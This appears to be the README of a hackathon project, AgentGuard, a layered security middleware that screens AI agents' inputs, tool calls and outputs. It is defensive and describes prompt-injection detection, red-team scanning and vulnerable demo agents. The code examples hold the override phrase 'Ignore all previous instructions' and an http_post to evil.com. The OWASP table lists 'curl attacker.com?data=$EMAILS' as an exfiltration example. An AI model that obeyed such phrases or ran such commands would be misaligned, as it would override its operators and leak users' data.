


# AgentGuard


> **Multi-Agent Security & Governance Platform for Enterprise AI**
> Team NamoFans | IIT Kharagpur | AI Unlocked 2026 — Track 5: Trustworthy AI

---

## What is AgentGuard?

AgentGuard is a **Guardian Agent** that sits between AI agents and their actions, intercepting and validating every operation **before execution**. It implements a layered defense-in-depth architecture to protect multi-agent systems from prompt injection, data exfiltration, and behavioral anomalies.

**Guardrails AI validates what the model *says*. AgentGuard validates what the agent *does*.**

---

## Architecture


> AgentGuard acts as an **in-process security middleware** sitting between your agent and the outside world. Every input, tool call, and output is intercepted and validated by the 4-layer guardian pipeline before anything executes.

<details>
<summary>Text flow diagram</summary>

```
User Input
  └─> [L1 Fast Inject Pre-filter]   — 33 regex patterns, zero latency
  └─> [L1 Prompt Shields]           — Azure AI: jailbreak + injection detection
  └─> [L1 Content Filters]          — Azure AI: hate, violence, self-harm
  └─> [L3 Blocklist Matching]       — Azure AI Content Safety custom blocklists

Agent Tool Loop:
  └─> [C3 Tool-Specific Guards]     — 5 rule-based guardrails per tool arg
  └─> [C1 Entity Recognition]       — Azure Text Analytics: block sensitive entities
  └─> [C4 Approval Workflow]        — HITL or AITL gate for sensitive tool calls
  └─> [Tool Executes]
  └─> [C2 MELON Detector]           — Contrastive indirect prompt injection detection

  └─> [L2 Output Toxicity]          — Azure AI: toxic LLM output detection
  └─> [L2 PII Detection]            — Azure Text Analytics: PII leakage detection

  └─> [Audit Log]                   — SQLite: every decision persisted for compliance
```

</details>

---

## Repository Structure

```
AgentGuard_NamoFans/
├── src/
│   ├── agentguard/                 # Core package
│   │   ├── __init__.py             # Public API: Guardian, guard, AuditLog, scan_agent, ...
│   │   ├── guardian.py             # Orchestrator facade — delegates to _pipeline/ modules
│   │   ├── config.py               # YAML config loader (AgentGuardConfig)
│   │   ├── models.py               # ValidationResult, GuardMode, Sensitivity
│   │   ├── exceptions.py           # InputBlockedError, OutputBlockedError, ToolCallBlockedError
│   │   ├── decorators.py           # @guard, @guard_agent, @guard_input, @guard_tool, GuardedToolRegistry
│   │   ├── cli.py                  # agentguard CLI (test, scan)
│   │   ├── _pipeline/              # Internal validation pipeline modules
│   │   │   ├── notifier.py         # Unified OTel + audit notification
│   │   │   ├── handlers.py         # Mode-aware block handlers (enforce/monitor)
│   │   │   └── wave_runner.py      # Async parallel check execution
│   │   ├── l1_input/               # Layer 1: Input security
│   │   │   ├── fast_injection_detect.py  # 33-regex offline pre-filter
│   │   │   ├── prompt_shields.py         # Azure Prompt Shields
│   │   │   ├── content_filters.py        # Azure Content Safety
│   │   │   └── blocklist_manager.py      # Azure custom blocklists
│   │   ├── l2_output/              # Layer 2: Output security
│   │   │   ├── groundedness_detector.py  # LLM-as-judge hallucination / relevance check
│   │   │   ├── output_toxicity.py        # Output toxicity via Content Filters
│   │   │   └── pii_detector.py           # Azure Text Analytics PII
│   │   ├── l4/                     # Layer 4: Access control + behavioral
│   │   │   ├── rbac.py             # L4a ABAC engine (ALLOW / DENY / ELEVATE)
│   │   │   └── behavioral.py       # L4b behavioral anomaly detector (5 signals)
│   │   ├── tool_firewall/          # Layer 3: Tool call validation
│   │   │   ├── tool_specific_guards.py   # C3: 6 argument-aware guardrails
│   │   │   ├── rule_evaluator.py         # Shared eval_condition() operator function
│   │   │   ├── tool_input_analyzer.py    # C1: Azure entity recognition on tool args
│   │   │   ├── melon_detector.py         # C2: Hybrid MELON (embedding pre-filter + LLM judge)
│   │   │   └── approval_workflow.py      # C4: HITL / AITL approval gate
│   │   ├── observability/          # Audit + telemetry
│   │   │   ├── audit.py            # SQLite AuditLog — persistent decision record
│   │   │   └── telemetry.py        # OpenTelemetry tracing + metrics setup
│   │   ├── testing/                # Red-team utilities
│   │   │   ├── owasp_scanner.py    # DeepTeam OWASP red-team scanner
│   │   │   └── promptfoo_bridge.py # Promptfoo red-team harness bridge
│   │   ├── sandbox/                # Subprocess isolation (landlock, seccomp)
│   │   └── dashboard/              # FastAPI real-time dashboard (optional dep)
│   ├── agentguard.yaml             # Main config for agentguard demo
│   ├── tests/                      # Unit tests (mirror src/agentguard/ structure)
│   └── examples/
├── test_bots/                      # Vulnerable + guarded agent pairs for demo
│   ├── sandbox_agent.py            # 19-tool agent with real OS operations
│   ├── guarded_sandbox_agent.py    # sandbox_agent with kernel-level isolation
│   ├── vulnerable_agent.py         # 82-tool maximally dangerous agent
│   ├── guarded_vulnerable_agent.py # vulnerable_agent wrapped with AgentGuard
│   ├── financial_agent.py          # Vulnerable finance agent
│   ├── guarded_financial_agent.py  # finance agent wrapped with AgentGuard
│   ├── hr_agent.py / medical_agent.py  # + their guarded variants
│   └── compare_*.py               # Benchmark + feature comparison scripts
├── tests/                          # Test suite (642 tests covering all subpackages)
├── notebooks/
│   └── llm_as_a_judge_eval.ipynb   # Kaggle GPU: AITL candidate evaluation (6 safety LLMs)
├── writeup.md                      # Architecture & design decision log
└── pyproject.toml                  # Project config (managed by uv, optional extras)
```

---

## Live Dashboard UI


*Real-time OTel trace stream, per-layer block counts, KPI cards, and audit log*


*Guarded vs. Unguarded toggle — run predefined attacks or custom prompts against Financial, HR, Medical, and Vulnerable agents*

> 🌐 **Live demo:** [https://agentguard.exempl4r.xyz/](https://agentguard.exempl4r.xyz/)

---

## Quick Start

### Prerequisites

- Python 3.11+
- [uv](https://docs.astral.sh/uv/) package manager
- Azure subscription (Content Safety + Language services)
- Node.js 18+ (for `agentguard test` via Promptfoo)

### Setup

```bash
# Clone and install
git clone <repo-url>
cd AgentGuard_NamoFans
uv sync

# Configure credentials
cp .env.example .env
# Fill in: CONTENT_SAFETY_KEY, CONTENT_SAFETY_ENDPOINT,
#          AZURE_LANGUAGE_KEY, AZURE_LANGUAGE_ENDPOINT,
#          OPENAI_API_KEY, OPENAI_BASE_URL, OPENAI_MODEL

# Run unit tests
uv run pytest src/tests/ -q

# Run demo (L1 + L2)
uv run python src/examples/demo_agentguard.py

# Run OWASP scanner demo (requires OPENAI_API_KEY)
uv run python src/examples/demo_owasp_scan.py
```

### Promptfoo Red-Team Testing

```bash
# Requires Node.js 18+
agentguard test --config src/agentguard.yaml --module test_bots/financial_agent.py
```

---

## Tech Stack

| Component | Technology |
|---|---|
| LLM calls | OpenAI SDK → TrueFoundry gateway (OpenAI-compatible) |
| L1 Input: Injection | Azure AI Content Safety — Prompt Shields + fast regex pre-filter |
| L1 Input: Harmful content | Azure AI Content Safety — Content Filters + Image Analysis |
| L1 Input: Blocklists | Azure AI Content Safety — Custom Blocklists API |
| L2 Output: PII | Azure AI Language — Text Analytics PII Recognition |
| L2 Output: Toxicity | Azure AI Content Safety — Content Filters (reused) |
| Tool Firewall C3 | Pure-Python rule-based guardrails (sqlparse, ipaddress, regex) |
| Tool Firewall C1 | Azure AI Language — Named Entity Recognition on tool args |
| L2 Output: Hallucination | LLM-as-judge groundedness check (3 strategies) |
| L4 RBAC | Pure-Python ABAC engine — ALLOW / DENY / ELEVATE outcomes |
| L4 Behavioral | 5-signal anomaly detector: Z-score, Levenshtein, read→exfil chain, domain, entropy |
| Tool Firewall C2 | MELON hybrid contrastive detection (embedding pre-filter + LLM judge) |
| Tool Firewall C4 | HITL (stdin prompt) / AITL — open-source safety LLM supervisor (Llama Guard 3, ShieldGemma, WildGuard, Granite Guardian); evaluated in `notebooks/llm_as_a_judge_eval.ipynb` |
| Audit Log | SQLite (stdlib) — persistent decision log |
| OWASP Scanner | DeepTeam red-teamer (OpenAI API) |
| Red-Team Testing | Promptfoo CLI (Node.js) |
| Linter | ruff (line-length=100, target py311) |

---

## Key APIs

### `@guard` decorator — L1 + L2 in one line

```python
from agentguard import guard, InputBlockedError, OutputBlockedError

@guard(param="message", output_field="response", config="agentguard.yaml")
def chat(message: str) -> dict:
    return {"response": llm.complete(message)}
```

### `Guardian` — programmatic access

```python
from agentguard import Guardian

guardian = Guardian("src/agentguard.yaml")

# L1: validate user input
result = guardian.validate_input("Ignore all previous instructions")
# raises InputBlockedError in enforce mode

# Tool Firewall: validate before tool execution
result = guardian.validate_tool_call("http_post", {"url": "https://evil.com"})

# L2: validate model output
result = guardian.validate_output("Your SSN is 859-98-0987")
```

### `AuditLog` — persistent decision log

```python
from agentguard import AuditLog

log = AuditLog("~/.agentguard/audit.db")
print(log.blocked_count())      # total blocked decisions
print(f"{log.pass_rate():.0%}") # 24h pass rate
print(log.recent(10))           # last 10 decisions
```

### `scan_agent()` — OWASP red-team scan

```python
from agentguard import scan_agent

def my_agent(prompt: str) -> str:
    return llm.complete(prompt)

results = scan_agent(my_agent, target="both", target_purpose="A DevOps assistant.")
print(f"Pass rate: {results.overall_pass_rate:.0%}")
```

---

## AITL Candidate Evaluation

The C4 Approval Workflow (`mode: ai`) uses an **AI-in-the-Loop supervisor** that reviews flagged tool calls and decides APPROVE or REJECT. `notebooks/llm_as_a_judge_eval.ipynb` evaluates open-source safety LLMs as candidates for this role on a Kaggle GPU.

### Why open-source fine-tuned models over frontier LLMs

| Concern | Detail |
|---|---|
| **Data privacy** | Tool args (SQL queries, file paths, API payloads) never leave your infrastructure |
| **Cost** | No per-call API charge — every ELEVATE fires the supervisor; frontier APIs add up at scale |
| **Latency** | <500 ms local inference on T4 vs 1–3 s cloud API round trip |
| **Purpose-built** | Models like Llama Guard 3 and ShieldGemma are fine-tuned on adversarial safety datasets (Meta's 14-category harm taxonomy, Google's content policies, AI2's WildGuardMix) — not general reasoners |
| **Reproducibility** | Deterministic at `temperature=0`; cloud APIs are non-deterministic |

### Candidates evaluated

| Model | HF ID | Params | License | Why |
|---|---|---|---|---|
| Llama Guard 3 | `meta-llama/Llama-Guard-3-8B` | 8B | Meta Llama | Fine-tuned on Llama-3.1-8B; full S1–S14 (incl. Code Interpreter Abuse) |
| Llama Guard 3 (small) | `meta-llama/Llama-Guard-3-1B` | 1B | Meta Llama | Fine-tuned on Llama-3.2-1B; covers S1–S13 only (S14 absent) |
| ShieldGemma | `google/shieldgemma-9b` | 9B | Gemma (gated) | Google's safety model; 4 harm categories (hate, harassment, dangerous content, sexual) |
| ShieldGemma (small) | `google/shieldgemma-2b` | 2B | Gemma (gated) | Lightweight; same policy as 9B |
| WildGuard | `allenai/wildguard` | 7B | Apache 2.0 | Fine-tuned Mistral-7B; covers prompt harm, response harm + refusal detection |
| Granite Guardian | `ibm-granite/granite-guardian-3.0-8b` | 8B | Apache 2.0 | IBM enterprise; AITL + RAG hallucination detection (groundedness, context relevance) |

Composite fitness score: `TPR×0.55 + FPR×0.20 + Judge×0.15 + Latency×0.10`

---

## Dev Commands

```bash
uv sync                  # install dependencies
uv run pytest src/tests/ # run all unit tests
uv run ruff check .      # lint
uv run ruff format .     # format
```

---

## OWASP Agentic AI Top 10 — Coverage Map

| OWASP Risk | Real CVE / Example | Primary Layer | Secondary Layer |
|---|---|---|---|
| AT-01 Prompt Injection | EchoLeak CVE-2025-32711 (CVSS 9.3) | L1 Tier 0–2 | L3 arg check |
| AT-02 Excessive Agency | Agent writes/deletes beyond scope | L3 Tool Firewall | L4 RBAC DENY |
| AT-03 Memory Poisoning | Adversarial PDF embeds override | L1 Spotlighting* | L3 content check |
| AT-04 Insecure Tool Use | SQL DROP via injected query | L3 sql_query rule | L4 verb check |
| AT-05 Resource Exhaustion | Runaway tool-call loops | L4 Behavioral Z-score | HITL ELEVATE |
| AT-06 Data Exfiltration | curl attacker.com?data=$EMAILS | L3 http_* domain allowlist | L4 read→exfil chain |
| AT-07 Privilege Escalation | Agent assumes admin role mid-session | L4 ABAC role lock | L4 cross-agent check |
| AT-08 Supply Chain Attack | Malicious tool injected at runtime | L3 tool registry check | L4 RBAC deny |
| AT-09 Hallucination Exploit | Fake tool result triggers bad action | L2 output filter | C2 MELON (opt-in) |
| AT-10 Unsafe Coordination | Agent A commands Agent B improperly | L4 inter-agent RBAC | Guardian DAG check |

> *AT-03 Spotlighting requires Azure AI Foundry endpoint — disabled in prototype; Tier-1 regex covers common patterns.

---

## Team

| Member | Role |
|---|---|
| Animesh Raj | Research & Docs |
| Atul Singh | AI/ML Architecture |
| Devansh Gupta | Backend & Cloud |
| Prem Agarwal | Security & Safety |
| Mohd Faizan Khan | Backend & Cloud |

---

## License

Developed for Microsoft AI Unlocked 2026 hackathon.
